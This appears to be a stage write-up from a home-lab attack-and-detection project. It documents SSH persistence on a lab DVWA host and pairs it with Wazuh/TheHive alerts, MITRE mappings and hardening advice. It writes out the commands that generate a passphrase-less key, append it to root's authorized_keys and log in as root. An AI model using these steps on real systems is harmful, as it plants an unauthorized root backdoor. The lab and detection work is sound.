







# Stage 08 — SSH Persistence

> **Status:** Complete — evidence attached
> **Case:** [Case 02](../../04-Investigation/Cases/case-02-lateral-movement.md)
> **Investigation:** [Phase 3 Deep Dive](../../04-Investigation/Deep-Dive-Attack-Chain-Investigation.md#phase-3-making-themselves-at-home-ssh-persistence--finding-windows)
> **Evidence:** [attack](../../06-Resources/screenshots/attack-simulation/18.png) · [alert](../../06-Resources/screenshots/thehive-alert/8.png)

## Objective

Lock in persistent root access on DVWA (`192.168.56.30`) by adding our own Ed25519 SSH public key into `/root/.ssh/authorized_keys`. This gives us a direct, encrypted administrative door that survives reboots and doesn't rely on fragile reverse shells.

> [!NOTE]
> **Case Transition:** Stage 08 marks the official kickoff of **Case 02 (Lateral Movement and Credential Access)**. The attacker transitions from initial perimeter compromise to internal network persistence and reconnaissance.

## Commands

### 1. Keypair Generation (Kali Linux — 192.168.232.135)

Generate a high-security Ed25519 SSH keypair with no passphrase to facilitate seamless, automated connections:

```bash
# Generate Ed25519 SSH keypair without passphrase
ssh-keygen -t ed25519 -f ~/.ssh/id_ed25519 -N ""

# Display the generated public key
cat ~/.ssh/id_ed25519.pub
```

Observed public key (redacted):
```text
ssh-ed25519 AAAAC3***kali@kali
```

### 2. Inject Public Key into Target Root Profile (DVWA Root Shell)

Append the attacker's public key string to the root user's `authorized_keys` file and set strict file permissions required by OpenSSH:

```bash
# Append attacker public key to root authorized_keys
echo "ssh-ed25519 AAAAC3***kali@kali" >> /root/.ssh/authorized_keys

# Enforce strict directory and file permissions
chmod 700 /root/.ssh
chmod 600 /root/.ssh/authorized_keys
```

### 3. Establish Direct Root SSH Connection (Kali Linux)

Authenticate directly to the target Linux host over SSH using the private key:

```bash
# Connect directly to DVWA as root using the private key
ssh -i ~/.ssh/id_ed25519 root@192.168.56.30

# Verify persistent session identity
whoami
hostname
```

## What happened

1. **Moving into Case 02 (Lateral Movement):** Now that I had root on DVWA, I needed a clean, permanent way back in. Reverse shells drop whenever a process dies, and web traffic creates unnecessary web logs. Direct SSH with a public key is silent, encrypted, and rock-solid.
2. **Generating the keypair:** On Kali (`192.168.232.135`), I generated a fresh Ed25519 key with no passphrase: `ssh-keygen -t ed25519 -f ~/.ssh/id_ed25519 -N ""`.
3. **Injecting the public key:** From the existing root shell on DVWA, I appended the public key directly into `/root/.ssh/authorized_keys` and locked down permissions with `chmod 700 /root/.ssh` and `chmod 600 /root/.ssh/authorized_keys` so OpenSSH wouldn't reject the key.
4. **Testing our new front door:** Back on Kali, I tested the connection: `ssh -i ~/.ssh/id_ed25519 root@192.168.56.30`. OpenSSH accepted the key instantly without asking for a password, dropping me straight into a clean `root@dvwa:~#` shell.
5. **Ready to pivot:** With persistent SSH access in place, I no longer needed the reverse shell or webshell. DVWA was now our permanent staging ground for attacking Active Directory.

## Evidence

### Attack Screenshots


*Figure 8.1: Generation of the Ed25519 keypair and display of the public key on Kali Linux.*


*Figure 8.2: DVWA root shell appending the public key to `/root/.ssh/authorized_keys` and applying restrictive permissions.*


*Figure 8.3: Successful SSH authentication from Kali directly to `root@192.168.56.30` using the injected key.*

### Alert Screenshots


*Figure 8.4: TheHive Alert #16 overview capturing unauthorized SSH persistence and root authentication from 192.168.232.135 (wzb-1208f0ea54).*


*Figure 8.5: Wazuh Rule 5715 alert detail showing sshd authentication success for root from external attacker IP 192.168.232.135 (Alert #16).*


*Figure 8.6: Wazuh Rule 100220 capturing root command injection appending Ed25519 key into /root/.ssh/authorized_keys.*


*Figure 8.7: Wazuh OpenSSH authentication record confirming successful key-based login to DVWA.*

## Alert observed

| Source | Rule / Signature | Rule ID | TheHive Alert | Severity | Status |
|---|---|---|---|---|---|
| Wazuh / Linux SSH | sshd: authentication success (persistent root backdoor login) | 5715 | TheHive Alert #16 (`8.png`, `8.1.png` / `wzb-1208f0ea54`) | High (3) | **Detected** |
| Wazuh (Host Command Audit) | Bash command by root: `echo "ssh-ed25519..." >> /root/.ssh/authorized_keys` | Rule 100220 (Level 5) | SIEM Indexed (`Wazuh-Raw-Alerts.csv` Row 9164, `wzb-19`) | Medium | **Detected (Forensic Command Capture)** |

> [!NOTE]
> **Verbatim Command Telemetry (Rule 100220):**  
> While SSHD (Rule 5715) alerted to TheHive upon session logon, the custom `bashcmd` telemetry pipeline on DVWA captured the verbatim key injection command under **Wazuh Rule 100220** at `17:29:34 IST` (`Wazuh-Raw-Alerts.csv` Row 9164):  
> `echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIACi7TGj+OejU78IWt/I6/im7sLXOR1jben7h94DmDJ5 kali@kali" >> /root/.ssh/authorized_keys`  
> In addition, preceding permission setup commands (`chmod 700 /root/.ssh`, `chmod 600 /root/.ssh/authorized_keys`) were recorded in rows 9155–9161.

## MITRE ATT&CK

| Tactic | Technique | ID | Sub-technique |
|---|---|---|---|
| Persistence | Account Manipulation | T1098 | SSH Authorized Keys (T1098.004) |
| Lateral Movement / Initial Access | Remote Services | T1021 | SSH (T1021.004) |

## Detection opportunities

- **File Integrity Monitoring (FIM):** Turn on real-time FIM (Wazuh `syscheck` or Auditd) on `/root/.ssh/authorized_keys`. Any write or append to authorized_keys files should immediately ring alarm bells.
- **SSH Daemon Hardening:** Block direct root logins (`PermitRootLogin no` in `/etc/ssh/sshd_config`). System administrators should log in as their own user and elevate with `sudo`.
- **Anomalous SSH Logins:** Watch for root SSH logins originating from external, unexpected, or non-management IP addresses.
- **Command Telemetry:** Auditd and Wazuh caught the exact `echo "ssh-ed25519..." >> /root/.ssh/authorized_keys` command line at `17:29:34 IST` under Rule 100220.

## Notes

- **Why this matters for Case 02:** This stage locks down our pivot machine so we can transfer tools, scan the internal network, and attack Active Directory without risking getting disconnected.
- **Key Redaction:** SSH public key contents are redacted per project documentation guidelines (`ssh-ed25519 AAAAC3***kali@kali`).
